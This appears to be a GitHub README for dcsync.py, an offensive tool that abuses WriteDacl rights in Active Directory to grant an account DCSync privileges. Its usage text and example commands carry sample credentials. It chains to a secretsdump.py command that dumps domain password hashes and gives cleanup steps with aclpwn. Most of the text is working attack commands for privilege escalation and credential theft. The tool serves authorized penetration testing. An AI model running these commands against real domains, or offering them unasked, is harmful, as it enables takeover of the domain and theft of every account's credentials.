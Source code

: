 # Adding DCSync Permissions
Mostly copypasta from https://github.com/tothi/rbcd-attack
```
usage: dcsync.py [-h] -dc FQDN -t USERNAME [-hashes LMHASH:NTHASH] [-k] identity

WriteDacl Attack: To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

positional arguments:
  identity              domain\username:password, attacker account with write access to target computer properties (NetBIOS domain name must be used!)

optional arguments:
  -h, --help            show this help message and exit
  -dc FQDN              FQDN of the Domain Controller
  -t USERNAME           Target user to be escalated in format *Distinguished Names*
  -hashes LMHASH:NTHASH
                        Hash for LDAP auth (instead of password)
  -k                    If you want to use a Kerberos ticket

Example: 
  ./dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator:Password123
  ./dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator -k
  
  ./dcsync.py -dc dc01.n00py.local -t 'CN=spoNge369,CN=Users,DC=n00py,DC=local' 'n00py.local\user_with_writeDACL:P@$$w0rd123'
  
   DCSync Attack (:
      secretsdump.py 'n00py.local/spoNge369:passw0rd123!@dc01.n00py.local'

   Search Distinguished Names(DN) of spoNge369:
      pywerview get-netuser -u'any_valid_user' -p'password321$' -t dc01.n00py.local | perl -wnlE'print if/distinguishedname.+spoNge369/'
  
```

To clean up after you are done, use ACLpwn https://github.com/fox-it/aclpwn.py. This tool is pretty old and not maintained, but you can get it to work. One thing you will need to do is replace “neo4j.v1” with just “neo4j” in database.py. To restore the ACLs to the original configuration, use the restore state file created by the DCSync tool.




## Dependencies:

Impacket <br>
`pip3 install pywerview`

For kerberos:
```
apt install heimdal-dev -y
apt install libkrb5-dev -y
python3 -m pip install gssapi
```
